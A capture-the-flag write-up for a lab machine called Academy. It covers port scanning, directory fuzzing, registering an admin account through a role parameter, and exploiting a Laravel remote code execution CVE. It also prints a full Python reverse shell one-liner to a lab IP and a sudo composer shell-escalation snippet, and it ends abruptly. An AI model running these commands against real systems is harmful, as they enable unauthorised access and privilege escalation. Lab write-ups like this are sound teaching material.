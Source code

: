 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file

![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
